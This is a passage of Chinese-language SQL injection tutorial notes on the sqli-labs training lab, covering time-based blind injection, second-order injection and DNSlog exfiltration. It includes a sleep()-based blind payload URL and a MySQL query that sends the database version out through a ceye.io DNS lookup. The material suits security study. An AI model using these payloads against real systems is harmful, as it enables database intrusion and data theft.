 *   在这里插入图片描述
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhb9gAvE6JlJvye9QSwlQia4XPkUq03OvaqicpiaKWKxxphsJVf6xl4Vubg%2F640%3Fwx_fmt%3Dpng)
    
*   判断数据库位数
    
*   `http://sqli-labs:8600/Less-2/?id=1%20and%20sleep(if(length(database())=8,5,0))--+`
    
*   在这里插入图片描述
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMh6uvZrxed3IdnXdwtAa0ob0KsicZ8TDd37qFXqucPcmXIRvlFKLVaeFg%2F640%3Fwx_fmt%3Dpng)
    

### 补充

> ccess偏移注入:解决列名获取不到的情况 查看登陆框源代码的表单值或观察URL特征等也可以针对表或列获取不到的情况

### 涉及资源

https://www.jianshu.com/p/bc35f8dd4f7c https://www.jianshu.com/p/fcae21926e5c

## 17\. SQL注入之二次,加解密,DNS等注入

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhicYZ6kDpHTLqo1Pfzoia3dcgHt0HxnicYfCFroG2B39AjC55luJpiavuZw%2F640%3Fwx_fmt%3Dpng)

在这里插入图片描述

`DNSlog:解决了盲注不能回显数据，效率低的问题-
`

### 17.1 二次注入

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhe3WFMMiaanhU7SwtuqXbWOQNGuLfqkPNM3UmGOX0WCyLkFIXcr5Rblw%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMh9B0LyN80Ilnf2giaDIHxYvjKtEBQIfIQUVCWgl4jADibgibrkHDkt5yKw%2F640%3Fwx_fmt%3Dpng)

*   第一个是原有的，第二个是我们注册的，当我们修改第二个的密码的时候，由于存在`‘#`，数据库会判断错误，相当于修改了第一个的密码。
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhLasNCB8eKkljYVUYFJ8KFlN1Mwsymu77VQqZVGeNoEFic6xdV6jKWPA%2F640%3Fwx_fmt%3Dpng)
    

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhFO2xnJwq7Wrw1qOeyibTHKNmH3vt8oe1ydTojcI7wmsaxCh4bOPVV1g%2F640%3Fwx_fmt%3Dpng)

### 17.2 DNSlog-

*   DNSlog可以解决无回显问题
    
*   `mysql> select * from users where id=1 and if((select load_file(concat('\\\\',(select version()),'.eii0i8.ceye.io\\abc'))),1,0);Empty set (21.14 sec)`
    